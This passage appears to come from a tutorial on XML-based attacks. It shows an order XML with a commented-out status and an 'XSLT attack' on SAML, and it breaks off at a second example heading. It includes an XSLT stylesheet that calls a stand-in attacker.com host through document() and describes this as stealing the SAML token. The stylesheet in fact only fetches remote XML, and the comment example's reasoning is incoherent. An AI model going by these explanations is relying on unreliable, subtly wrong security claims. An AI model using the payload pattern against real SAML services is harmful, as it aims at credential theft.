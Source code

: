 ```
<order>
<id>12345</id>
<status>pending</status>
<!-- Delivery date postponed -->
<!-- <status>delivered</status> -->
</order>
```
In this example, the `<status>` element, which indicates the status of the order, is enclosed in a comment. Comments can override the status indicating the order has been delivered. An inadequate XML comment processing mechanism could not process comments, allowing an attacker to change the state of the order.

## XSLT (eXtensible Stylesheet Transformation Language)

It refers to a security vulnerability that can be used against SAML (Security Assertion Markup Language) applications.

XSLT is an XML-based transformation language and is used to convert XML documents to a different format or change their content. SAML is a standard for sharing authentication and authorization information. A SAML-based application sends user credentials to the identity provider (IdP), and the IdP authenticates the user and provides the application with the credentials (SAML token).

An XSLT attack is an attack that exploits the vulnerability of SAML-based applications to compromise credentials or bypass the authorization mechanism. Below are real-life examples and code to help you better understand this vulnerability:

- Example 1: SAML Credentials Spoofing

```
<saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">
<saml:AttributeStatement>
<saml:Attribute Name="username" Value="JohnDoe"/>
<saml:Attribute Name="role" Value="admin"/>
</saml:AttributeStatement>
</saml:Assertion>

```
The attacker attempts to obtain the SAML token using the XSLT attack. The following XSLT code sends the entire SAML token to an attacker-controlled server:

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
<xsl:output method="text"/>
 
<xsl:template match="/">
<xsl:value-of select="document('http://attacker.com/token.xml')"/>
</xsl:template>
</xsl:stylesheet>
```
The attacker retrieves XML from a remote source using the document() function during the XSLT conversion process. In this way, the SAML token is captured on the attacker-controlled server.

- Example 2: Bypassing Authorization Mechanism
